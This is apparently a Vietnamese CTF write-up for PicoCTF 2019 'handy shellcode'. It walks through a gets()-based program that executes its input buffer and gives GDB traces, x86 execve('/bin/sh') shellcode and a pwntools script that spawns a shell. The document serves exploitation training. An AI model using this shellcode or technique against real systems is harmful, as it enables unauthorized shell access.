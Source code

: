 # handy shellcode PicoCTF2019

```python
file vuln                                                                                                   
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=7b65fbf1fba331b6b09a6812a338dbb1118e68e9, not stripped
```

Source code: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();

  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

Ta nhận thấy là với hàm ***vuln*** với việc gọi đến **gets** cho phép ta thực hiện overflow

Hơn nữa ta phải xác định xem:
```c
((void (*)())buf)();
```
rốt cuộc là gì?

Debug:

```python
0x08048959 <+128>:	push   eax
   0x0804895a <+129>:	call   0x80502f0 <puts>
   0x0804895f <+134>:	add    esp,0x10
   0x08048962 <+137>:	lea    eax,[ebp-0xa0]
   0x08048968 <+143>:	call   eax
   0x0804896a <+145>:	sub    esp,0xc
   0x0804896d <+148>:	lea    eax,[ebx-0x2dbc8]
   0x08048973 <+154>:	push   eax
   0x08048974 <+155>:	call   0x80502f0 <puts>
   0x08048979 <+160>:	add    esp,0x10
   0x0804897c <+163>:	mov    eax,0x0
   0x08048981 <+168>:	lea    esp,[ebp-0x8]
   0x08048984 <+171>:	pop    ecx
   0x08048985 <+172>:	pop    ebx
   0x08048986 <+173>:	pop    ebp
   0x08048987 <+174>:	lea    esp,[ecx-0x4]
   0x0804898a <+177>:	ret    
```
Ta nhận thấy giữa 2 lần gọi **puts** thì xuất hiện việc ***call eax*** chắc hẳn đây chính là đáp án cho câu hỏi trên.

Tiến hành đặt breakpoint tại ***call eax*** 
```python
──────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────
*EAX  0xffffcf68 ◂— 0x636261 /* 'abc' */
 EBX  0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
*ECX  0x80da227 (_IO_2_1_stdout_+71) ◂— 0xdb8700a
*EDX  0x80db870 (_IO_stdfile_1_lock) ◂— 0x0
 EDI  0x80481a8 (_init) ◂— push ebx
 ESI  0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0xffffd008 ◂— 0x0
*ESP  0xffffcf60 ◂— 0xf0
*EIP  0x8048968 (main+143) ◂— call eax
────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────
 ► 0x8048968 <main+143>    call   eax                           <0xffffcf68>
 
```
Thì ta nhận thấy nó call thẳng tới thanh ghi eax mà trong khi đó eax lúc này chứa chuỗi mà ta nhập vào.

```zsh
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
Với NX bị disable do đó ta có thể đưa shell code vào, để nó gọi ngay tới shell code của mình.

Ta tra bảng [systemcall x86 32-bit](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) và dùng [tool](https://defuse.ca/online-x86-assembler.htm#disassembly) để viết shell code, convert từ ASM => hex

Ta sẽ dùng systemcall : ***execve("/bin/sh")***

Cụ thể như sau:

* EAX = 0x0b
* EBX = địa chỉ chuỗi "/bin/sh"
* ECX = EDX = 0

```python
>>> import binascii
>>> binascii.hexlify(b"/bin/sh\0"[::-1])
b'0068732f6e69622f'
```
Với kiến trúc 32-bit:

```python
xor eax,eax
add eax,0x0b
xor ecx,ecx
xor edx,edx
push edx
push 0x0068732f
push 0x6e69622f
mov ebx,esp
int 0x80
```

Exploit:
```python
from pwn import *

r = process("./vuln")
#gdb.attach(r, api=True)
#print(r.recvuntil(b"shellcode:"))
payload = "\x31\xC0\x83\xC0\x0B\x31\xC9\x31\xD2\x52\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80"

r.sendline(payload)
r.interactive()
```